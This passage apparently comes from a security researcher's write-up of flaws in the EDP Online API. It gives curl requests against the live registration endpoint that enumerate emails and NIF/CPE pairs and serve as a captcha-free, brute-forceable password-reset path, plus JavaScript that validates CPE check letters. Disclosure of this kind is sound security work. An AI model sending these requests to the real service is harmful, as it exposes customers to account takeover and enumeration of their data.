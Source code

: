However, there's another endpoint that looks like this:

{% highlight shell %}
curl -X POST \
  https://edponline.edp.pt/api/v2/auth/register \
  -d '{
          "category": "auth",
          "operation": "register",
          "Body": {
              "Operation": "SendRecoveryEmail",
              "Nif": "VALID_NIF",
              "Email": "VALID_EMAIL",
          }
      }'
{% endhighlight %}

This one didn't require a captcha, and again only one of `VALID_NIF`, `VALID_EMAIL` was needed, meaning that it was a brute-forceable equivalent to the password reset endpoint.

It could also be used to check whether the email existed on their database, something not possible with the login form. The response also contained the `userId`.


## NIF + CPE Pair Enumeration

It was also possible to check whether a `NIF` + `CPE` pair existed with:

{% highlight shell %}
curl -X POST \
  https://edponline.edp.pt/api/v2/auth/register \
  -d '{
          "category": "auth",
          "operation": "register",
          "Body": {
              "Operation": "GetUserValidation",
              "Target": "B2B",
              "Nif": "VALID_NIF",
              "DeliveryPoint":"VALID_CPE"
          }
      }'
{% endhighlight %}

After some digging, I found the `CPE` format: `PT0002` + `12 digits` + `2 letters`, with the last 2 letters being the integrity check. To generate one we can use:

{% highlight javascript %}
function checkCPE(cpe) {
    var cMap = {0:'T',1:'R',2:'W',3:'A',4:'G',5:'M',6:'Y',7:'F',8:'P',9:'D',10:'X',11:'B',12:'N',13:'J',14:'Z',15:'S',16:'Q',17:'V',18:'H',19:'L',20:'C',21:'K',22:'E'};
    var cRegex = /[A-Z]{2}/;
    if (cpe && cpe.length == 20 && cpe.substring(0, 2) == 'PT' &&
        !isNaN(cpe.substring(2, 18)) && cRegex.test(cpe.substring(18))
    ) {
        var i = parseInt(cpe.substring(2, 18), 10) % 529;
        var j = Math.floor(parseFloat(i) / 23);
        var k = i % 23;
        if (k < 23 && j < 23) {
            return cpe[18] == cMap[parseInt(j, 10)] &&
                   cpe[19] == cMap[parseInt(k, 10)];
        }
    }
    return false;
}
{% endhighlight %}
